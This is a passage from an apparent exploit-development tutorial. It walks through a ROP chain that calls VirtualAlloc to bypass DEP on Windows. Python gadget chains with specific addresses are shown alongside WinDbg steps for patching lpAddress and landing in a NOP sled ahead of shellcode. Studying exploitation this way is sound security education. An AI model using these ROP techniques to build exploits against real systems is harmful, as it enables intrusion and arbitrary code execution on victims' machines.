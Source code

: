 ```python
    #[--Align ESP with VA Skeleton--]
    rop += pack('<L', 0x10129afb) # mov eax, edx ; ret  ; 
    rop += pack('<L', 0x10154336) # pop ebp ; ret ;
    rop += pack('<L', 0xffffffec) # -14
    rop += pack('<L', 0x100fcd71) # add eax, ebp ; dec ecx ; ret ;
    rop += pack('<L', 0x101394a9) # xchg eax, esp ; ret ; 
```

<img src="/images/VA_17.png" alt=""> 

Before we execute the call to `VirtualAlloc`, lets obtain the memory protections of the current `lpAddress`. We can do this in WInDbg with `!vprot <address>` :

<img src="/images/VA_18.png" alt=""> 

Now let's execute `VirtualAlloc`, in WinDbg we can use the `pt` command to skip to the end of the function. Once we hit the `ret` instruction, we can recheck the memory regions of `lpAddress` and verify that the protection for the region has changed from **PAGE_READWRITE** to **PAGE_EXECUTE_READWRITE**.

<img src="/images/VA_19.png" alt=""> 

At this point we should be good to continue execute our program and retrieve our action of objectives (reverse shell or other code execution like calc.exe) but we immediately fall victim to a `Access Violation`. This is not because of DEP but because we're landing on non executable instructions. In other words, we didn't land on our shellcode but rather somewhere else in the buffer. To fix this, we need to go back to when we patched `lpAddress` and adjust the offset. To correctly handle this, we will set a `breakpoint` / `bp` on `0x1012d24e` the memory address of our  `rop += pack('<L', 0x1012d24e) # mov [edx], eax ; ret ;` gadget. We will execute our exploit and catch the crash in WinDbg and proceed with execution once, so we will land of the shellcode return address argument. Once this argument is patched, we will search for our shellcode in memory and calculate the correct offset from the beginning of our shellcode to `lpAddress`. It's good practice to pad our shellcode with `0x90` or `nops` so that we have some flexibility to give or take a few bytes. 



 >**&#x2757;**  A nopsled is a long sequence of NOP (No Operation) instructions leading up to the actual payload. The objective is to land in the NOPsled and slide through the NOPs until it reaches and executes the payload. 


We can see execution paused and the calculations done in WinDbg below:

<img src="/images/VA_20.png" alt=""> 

Once we have our updated offset and we return to our ROP chain we see have a bit of an issue.

```python
    #[--Patching lpAddress--]
    rop += pack('<L', 0x10129afb)    # mov eax, edx ; 
    rop += pack('<L', 0x10154336)    # pop ebp ; ret ;
    rop += pack('<L', 0xffffff38)    # -0n200 (temporary)
    rop += pack('<L', 0x100cdc7a)    # xchg eax, ebp ; ret  ;
    rop += pack('<L', 0x100fcd71)    # add eax, ebp ; dec ecx ; ret ;
    rop += pack('<L', 0x1012d24e)    # mov [edx], eax ; ret ; 
```
